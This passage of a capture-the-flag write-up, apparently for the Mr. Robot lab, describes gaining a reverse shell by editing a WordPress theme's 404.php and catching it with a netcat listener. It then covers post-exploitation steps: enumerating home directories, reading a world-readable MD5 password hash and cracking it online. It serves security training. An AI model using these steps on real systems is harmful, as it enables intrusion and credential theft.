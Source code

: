 
`404.php` is modified, but any PHP file in the selected theme would have worked as long as it's editable via the WordPress dashboard and directly accessible in the browser.

The next step is to start a listener on the attacking machine:

```bash
nc -lvnp 4343
```

The reverse shell can be triggered by navigating to:

`http://10.10.202.58/wp-content/themes/twentyfifteen/404.php`

## Post-Exploitation

### Enumerate Users

After obtaining a reverse shell, the system is checked for user accounts by listing the contents of the `/home` directory:

```bash
ls -l /home
```

A `robot` user is discovered.

### Enumerate Robot's Home Directory

```bash
ls -la /home/robot
```

Results:

```bash
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt                                                                                                                                      
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5 
```

`key-2-of-3.txt` is not readable due to file permissions, but `password.raw-md5` is world-readable.

```bash
cat /home/robot/password.raw-md5
```

An MD5 hash of `robot's` password is obtained, which can be cracked using [CrackStation](https://crackstation.net/)
